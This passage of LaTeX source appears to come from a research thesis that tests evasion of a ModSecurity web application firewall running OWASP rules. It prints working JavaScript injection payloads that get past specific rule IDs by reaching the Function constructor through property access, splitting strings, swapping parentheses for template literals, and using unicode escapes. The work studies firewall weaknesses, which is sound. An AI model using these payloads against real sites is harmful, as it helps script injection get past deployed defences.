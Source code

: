 To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted with \verb|[]['constructor']['constructor']()|. Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using square bracket notation]
[]['constructor']['constructor']('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using dot notation]
[].constructor.constructor('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

\subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of testing firewall evasion techniques, the author faced the question if it was possible to create payloads without  \verb|()|. Those payloads still need to be valid and bypass the waf.
Considering the bypassing payload from \ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals. This caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}`}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using a form of unicode escaping in JavaScript that was introduced with ES6 and differs from the unicode escaping in JSON. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|. This made the payload bypass the ModSecurity firewall. The bypassing payload:

